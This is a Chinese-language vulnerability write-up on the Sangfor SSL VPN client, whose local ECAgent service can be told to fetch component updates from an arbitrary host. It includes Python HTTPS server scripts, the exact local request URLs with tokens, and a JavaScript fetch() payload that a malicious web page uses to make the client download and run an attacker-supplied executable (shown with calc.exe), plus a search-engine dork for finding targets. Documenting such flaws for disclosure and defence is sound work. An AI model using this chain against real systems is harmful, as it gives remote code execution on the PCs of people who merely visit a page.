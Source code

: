 # 

# 深信服 SSL VPN 客户端远程文件下载

## 漏洞描述

深信服 SSL VPN 客户端存在远程文件下载，且文件可控下载后可执行

## 漏洞影响

```
深信服 SSL VPN
```

## 漏洞复现

百度"intitle: 欢迎使用SSL VPN"，随便找一个地方下载VPN客户端下载安装：



![](./images/202202091917573.png)



安装完之后访问VPN的页面，发现VPN会自动下载组件更新：



![](./images/202202091917218.png)



这些请求均为GET请求并附带着一些参数，我们把它一一列下来：



![](./images/202202091917102.png)



本地来看一下这个`54530`端口对应的进程是什么：

![](./images/202202091917296.png)



发现这个端口是ECAgent.exe开启的，寻找到对应进程文件所在位置：



![](./images/202202091917851.png)



确认这是XXX SSLVPN的程序，那么就可以将两者联系到一起，访问VPN登录首页会触发对`127.0.0.1`的访问从而引起VPN进行组件更新。



通过以上的分析我们猜测了整个大致流程，但我们设想一下如果我们可以控制本地的更新指向我们的服务器，然后将更新的组件内容替换成恶意程序，当程序启动的时候就启动了恶意程序，这样我们可以拿到安装VPN客户端的使用者PC权限。



再回到之前的本地链接列表，根据对英文的理解，参数op的值应该为其具体对应要执行的动作：



```plain
InitECAgent -> 初始化
GetEncryptKey -> 获取加密密钥
DoConfigure -> 配置
CheckReLogin -> 检查重新登录
CheckProxySetting -> 检查代理设置
UpdateControls -> 更新控制
DoQueryService -> 查询服务
```



第一个初始化的请求存在可控参数arg1：



```plain
https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=vpn.xxx.edu.cn%20443&callback=EA_cb10000
```



参数`arg1=vpn.xxx.edu.cn%20443`，对应值也就是HOST+空格+端口的格式，看到这里基本上就会有一个思路，客户端更新控件是不是根据这个指定值向其发送请求更新的呢？我们可以只替换第一个初始化请求的arg1参数为`172.20.10.2 8000`，然后本地搭建一个HTTP服务：



```plain
python -m SimpleHTTPServer
```



其他的请求原封不动，依次请求一遍那一份URL



服务端成功收到请求，但是却出现了错误的提示：



![](./images/202202091917373.png)

首先我们已经验证了自己的猜想，更新地址是自己可控的，客户端确实会向我们指定的服务端发送请求，但由于出现了错误我们不知道客户端访问了哪个文件，也不知道访问文件之后做了什么动作。



现在要做的就是搭建一个客户端可以正常访问的请求，通过这个错误大致可以知道，我搭建的服务端协议和客户端请求使用的协议不一致，本机抓个包发现客户端请求的是 HTTPS 协议，这就需要搭建一个 HTTPS 服务了。



如下脚本基于Python库建立一个 HTTPS 服务：



```python
# openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes

import BaseHTTPServer, SimpleHTTPServer
import ssl

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8000), SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```



搭建起一个 HTTPS 环境后再次复现如上请求，服务端收到日志：



![](./images/202202091918528.png)



可以看见客户端会访问两个文件：



```plain
/com/WindowsModule.xml
/com/win/XXXUD.exe
```



先不管xml文件是怎么样的，可执行文件(exe)是需要重视的，但是这里通过提示可以看出客户端发出的请求是POST请求，但我们所写的Python脚本建立的HTTPS服务并不支持POST方法，我们需要重写一下Handler：



```python
import BaseHTTPServer
import SimpleHTTPServer
import cgi
import ssl

class ServerHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_POST(self):
        form = cgi.FieldStorage()
        SimpleHTTPServer.SimpleHTTPRequestHandler.do_GET(self)

Handler = ServerHandler

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8000), Handler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```



最终如上脚本支持`POST`方法，当时用`POST`方法请求时即返回文件内容。



最后，拖一个`calc.exe`（计算器）到HTTPS网站根目录下的`/com/win/XXXUD.exe`。



依次请求（**经过多次复现发现，这三个请求才是重点的，其他的可以忽略**）：



```plain
https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=172.20.10.2 8000&callback=EA_cb10000

https://127.0.0.1:54530/ECAgent/?op=CheckReLogin&arg1=3408a894633162c62188f98e92a221967dccfa5aafbd79b576714b4d1c392a4ad4b220d698efcd939c3b1b37467023e9380ee3abf0e492ee2efc736de757b80e973fe4c7d8af1af211a3f7ff3433cd9de975c76583efe7251dd1c0656f4384832998630359b65beb131cd8d287712462fa1b9e9acbc96dcc678b84cd57178c1a&token=50065256e83ff1bb9e01757d0d22b669&callback=EA_cb10003

https://127.0.0.1:54530/ECAgent/?op=UpdateControls&arg1=BEFORELOGIN&callback=EA_cb10005
```



会发现客户端请求之后，将文件下载到本地并启动该程序，成功弹出计算器：



![](./images/202202091918246.png)



Exploit很简单，当用户打开某个页面时访问那三个本地请求即可，这里使用JavaScript的fetch去实现即可：



```javascript
<script>
    // 服务器IP和端口
    var ip = "172.20.10.2";
    var port = "4443";
    var poc_list = ["https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=" + ip + " " + port + "&Guid=&callback=EA_cb10000", "https://127.0.0.1:54530/ECAgent/?op=CheckReLogin&arg1=3616f5b2ad1fe9b62b3d34509daa11259782919108eb2bebe59d64c808c3a079c6f6ae36b6ff1d63cb8067d08a9db72b70d912bfdb8bdc6ca18140cfa0ffb9e88b85acebf4bf544f71ff0fc662b9b95a8e939928b847018c106e1a96686e1ec3274a89ae0b8f77fc3d53a5ce0f1eec9a0ce8a5e4e2c927331cd94a67d5360a3e&token=c4202416e283e60809d3b1e04e4bae6b&Guid=&callback=EA_cb10003", "https://127.0.0.1:54530/ECAgent/?op=UpdateControls&arg1=BEFORELOGIN&Guid=&callback=EA_cb10005"];
    for(var i=0; i<poc_list.length; i++){
        setTimeout(fetch(poc_list[i]),"2000");
        
    }
</script>
```



其次就是需要一个HTTPS服务端的Python脚本，并且在脚本根目录下的`/com/win/`目录下有一个`XXXUD.exe`文件。



![](./images/202202091918424.png)



## 参考文章

https://mp.weixin.qq.com/s/XbsxziIFKx8VhGd-pv0Ghg
